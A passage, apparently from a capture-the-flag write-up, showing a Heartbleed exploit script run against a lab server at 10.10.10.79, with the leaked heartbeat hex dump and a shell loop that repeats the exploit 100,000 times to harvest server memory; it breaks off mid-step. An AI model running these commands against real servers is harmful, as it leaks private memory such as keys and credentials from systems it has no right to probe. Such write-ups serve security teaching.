 ```

```

The script runs and grabs memory from the target server (it’s useful to remove lines of 0):

```

root@kali# python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 BF 6B 6E 41  ....#........knA
  00e0: 39 66 FE 4D BC F2 D4 12 DD 9E 97 59 61 A9 1D 4D  9f.M.......Ya..M
  00f0: 77 11 D3 8B 4F 11 AD 87 2F 50 B9 4E 13 E7 92 86  w...O.../P.N....
  0100: F1 0B 04 3B 97 CB 19 00 0B 00 0C 00 18 00 09 00  ...;............
  0110: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  0120: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  0130: 10 00 11 00 23 00 00 00 0D 00 20 00 1E 06 01 06  ....#..... .....
  0140: 02 06 03 05 01 05 02 05 03 04 01 04 02 04 03 03  ................
  0150: 01 03 02 03 03 02 01 02 02 02 03 00 0F 00 01 01  ................
  0160: 00 15 00 9C 00 00 00 00 00 00 00 00 00 00 00 00  ................

WARNING: server returned more data than it should - server is vulnerable!

```

I ran it a ton of times to collect a bunch of data:
`for i in $(seq 1 100000); do python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/data_dump$i; done`

The use fdupes to remove duplicates:

